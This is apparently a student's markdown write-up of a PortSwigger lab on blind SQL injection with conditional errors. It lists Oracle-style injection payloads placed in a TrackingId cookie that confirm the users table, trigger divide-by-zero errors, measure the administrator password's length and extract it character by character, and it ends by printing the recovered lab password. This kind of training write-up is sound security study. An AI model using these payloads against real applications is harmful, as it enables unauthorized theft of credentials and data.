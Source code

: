 # SQL Injection - Blind SQLi with Conditional Errors

## 📌 Lab Details
- **Title**: Blind SQL Injection with Conditional Errors
- **Difficulty**: Practitioner
- **Category**: SQL Injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/9622f310ce0fc2a85821811f98f2be7b23e049667d49d018ca28f06dc0b7875a?referrer=%2fweb-security%2fsql-injection%2fblind%2flab-conditional-errors

## 🔍 Summary
This lab demonstrated how Blind SQLi with conditional errors can be used to brute force a password.

## 🛠 Steps to Solve
1. Confirm that the server is interpreting the injection as a SQL query `TrackingId=6TldpyJ233EjIRZJ'||(SELECT '' from DUAL)||'`.
2. Verify that the `users` table exists `TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`. (Note that the WHERE ROWNUM = 1 condition is important here to prevent the query from returning more than one row, which would break our concatenation.)
3. Now trigger an error conditionally `TrackingId=xyz'||(SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`.
4. Now we will use this behavior to test whether the username `administrator` exist in the table `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`.
5. Determine the number of characters in the password with the help of a `sniper` attack `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
   -> password is exactly `20` characters.
6. Determining the complete password using a `cluster bomb` attack `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
   -> password is `in76qgy59o8uoib0bgj9`
   
## 📖 Key Takeaways
- Understanding how blind SQLi works
- Understanding how to trigger an error conditionally
- Understanding how to implement `brute force` attack with the help of `intruder`
  
## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/b25fd76d-bb6c-4768-a119-5d8c8a189e5d)
![image](https://github.com/user-attachments/assets/47bc8f20-390e-49f6-a299-6ed921ee5a04)
![image](https://github.com/user-attachments/assets/02b8f86c-7fe9-46f2-bc61-93de3aaf74d9)
![image](https://github.com/user-attachments/assets/da37f4a2-8db9-4eb5-aa1c-bef87d925cc1)
![image](https://github.com/user-attachments/assets/5c707d3e-215e-44eb-853e-057c1dc13b13)
![image](https://github.com/user-attachments/assets/58f226c2-742d-4d86-995c-178e0fea87f6)
![image](https://github.com/user-attachments/assets/00105eb5-4811-4879-a65e-e2d3f39042b1)
![image](https://github.com/user-attachments/assets/9f343cb7-8cd2-4cad-9716-677542f6335b)
![image](https://github.com/user-attachments/assets/709b1d79-d70f-4086-a988-ef4e9f78035b)
![image](https://github.com/user-attachments/assets/e0c608d7-a45a-4008-ad6d-ab304264a07f)
